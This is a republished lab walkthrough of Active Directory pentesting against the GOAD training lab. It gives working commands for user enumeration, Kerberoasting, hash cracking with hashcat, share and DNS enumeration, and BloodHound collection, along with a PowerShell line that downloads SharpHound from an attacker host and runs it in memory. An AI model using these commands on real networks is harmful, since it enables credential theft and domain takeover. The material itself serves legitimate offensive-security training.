


> [!NOTE]
> Original post can be found here:
> https://mayfly277.github.io/posts/GOADv2-pwning-part3/

We found some users in Part 2, now let's see what we can do with those creds.
## User listing

- When you get an account on an active directory, the first thing to do is always getting the full list of users.
- Once you get it you could do a password spray on the full user list (very often you will find other accounts with weak password like username=password, SeasonYear!, SocietynameYear! or even 123456).
```
GetADUsers.py -all north.sevenkingdoms.local/brandon.stark:iseedeadpeople
```


- With ldap query, i recommend this article with all the useful ldap query for active directory : [https://podalirius.net/en/articles/useful-ldap-queries-for-windows-active-directory-pentesting/](https://podalirius.net/en/articles/useful-ldap-queries-for-windows-active-directory-pentesting/)

- With ldap on north.sevenkingdoms.local

```
ldapsearch -H ldap://192.168.56.11 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b 'DC=north,DC=sevenkingdoms,DC=local' "(&(objectCategory=person)(objectClass=user))" \|grep 'distinguishedName:'
```




- With ldap query we can request users of the others domain because a trust is present.

- On essos.local
```
ldapsearch -H ldap://192.168.56.12 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b ',DC=essos,DC=local' "(&(objectCategory=person)(objectClass=user))"
```    


- On sevenkingdoms.local
```
ldapsearch -H ldap://192.168.56.10 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b 'DC=sevenkingdoms,DC=local' "(&(objectCategory=person)(objectClass=user))"
```


## Kerberoasting

- On an active directory, we will see very often users with an SPN set.

- let’s find them with impacket

```
impacket-GetUserSPNs -request -dc-ip 192.168.56.11 north.sevenkingdoms.local/brandon.stark:iseedeadpeople -outputfile kerberoasting.hashes 
```


All the hashes will be stored in the file named kerberoasting.hashes

- We could also do that with nxc with the following command :
```
nxc ldap 192.168.56.11 -u brandon.stark -p 'iseedeadpeople' -d north.sevenkingdoms.local --kerberoasting KERBEROASTING
```




- Now let’s try to crack the hashes :
```bash
hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force
```

- We quickly get a result with rockyou :

- And we found another user : north/jon.snow:iknownothing

## share enum

- We got a domain user so we could enumerate the share another time but with a user account
```
cme smb 192.168.56.10-23 -u jon.snow -p iknownothing -d north.sevenkingdoms.local --shares
```


- Now a new share folder is readable (nothing in it on the lab, but on a real assignment you will get very often juicy information)

## DNS dump

- Another cool thing to do when we got a user is enumerate dns. For this we can use dirkjanm’s tool [adidnsdump](https://github.com/dirkjanm/adidnsdump).

```
pipx install adidnsdump
```

```
adidnsdump -u 'north.sevenkingdoms.local\jon.snow' -p 'iknownothing' winterfell.north.sevenkingdoms.local
```


- Results are stored in a records.csv file


## Bloodhound

- Boodhound is one of the best tool for an active directory pentest. This tool will help you to find all the path to pwn the AD and is a must have in your arsenal !
    
- To launch bloodhound you first need to retrieve all the data from the different domains.
    

### Python ingestor - from linux

> [!NOTE]
>  bloodhound-ce-python is installed on Kali now


- First we will get the data with the python ingestor : [https://github.com/fox-it/BloodHound.py](https://github.com/fox-it/BloodHound.py)
    
- Let’s run the script on north.sevenkingdoms.local :
    
```
bloodhound-ce-python --zip -c All -d north.sevenkingdoms.local. -u brandon.stark -p iseedeadpeople -ns 192.168.56.11
```

```
nxc ldap north.sevenkingdoms.local -u brandon.stark -p iseedeadpeople bloodhound --collection All -dns-server 192.168.56.11
```


Ok now, we have all information from the domain north.sevenkingdoms.local. Now try to get information from other domains :

```
bloodhound-ce-python --zip -c All -d sevenkingdoms.local. -u brandon.stark@north.sevenkingdoms.local -p iseedeadpeople -ns 192.168.56.12
```

```
bloodhound-ce-python --zip -c All -d essos.local. -u brandon.stark@north.sevenkingdoms.local -p iseedeadpeople -ns 192.168.56.12
```

USER DOES NOT GET A TGT

- We now got the 3 domains information :)
    
- But the python ingestor is not as complete as the .net ingestor as we can see on the github project : _“Supports most, but not all BloodHound (SharpHound) features (see below for supported collection methods, mainly GPO based methods are missing)”_
    
- So let’s do that again from Windows this time.
    

### .net ingestor - from Windows

- The official bloudhound ingestor is sharphound : [https://github.com/BloodHoundAD/SharpHound](https://github.com/BloodHoundAD/SharpHound)
    
- Let’s start an RDP connection
    
```
xfreerdp3 /u:jon.snow /p:iknownothing /d:north /v:192.168.56.22 /cert:ignore /drive:test,/home/kali/Desktop/htb/GOAD/tools /clipboard
```

- The C:\vagrant folder is automatically mounted on the vm it will simplify file transfer
- We will launch sharphound to retrieve domains information

```
.\sharphound.exe -d north.sevenkingdoms.local -c all --zipfilename bh_north_sevenkingdoms.zip

.\sharphound.exe -d sevenkingdoms.local -c all --zipfilename bh_sevenkingdoms.zip

.\sharphound.exe -d essos.local -c all --zipfilename bh_essos.zip
```

- Or we could also do it in reflection with powershell if you want to play it full in memory (if you do this with defender enabled you will first have to bypass amsi)

```
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.1/SharpHound.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Sharphound.Program]::Main("-d north.sevenkingdoms.local -c all".Split())
```

### Hunting with bloodhound

- Now start neo4j and bloodhound (at the time of writing the python ingestor match bloodhound 4.1 be sure to get the right version)
- Upload the zips into bloodhound
- And now show all domains and computer

```
MATCH p = (d:Domain)-[r:Contains*1..]->(n:Computer) RETURN p
```


- And show all the users
```
MATCH p = (d:Domain)-[r:Contains*1..]->(n:User) RETURN p
```

)

- let see the overall map of domains/groups/users

```
MATCH q=(d:Domain)-[r:Contains*1..]->(n:Group)<-[s:MemberOf]-(u:User) RETURN q
```


- Let us see the users ACL
```
MATCH p=(u:User)-[r1]->(n) WHERE r1.isacl=true and not tolower(u.name) contains 'vagrant' RETURN p
```


- If you want to dig more I recommend the following articles with a lot of useful information and queries :
    - [https://en.hackndo.com/bloodhound/](https://en.hackndo.com/bloodhound/)
    - [https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/)

In the next article we will start to play with poisoning and ntlm relay.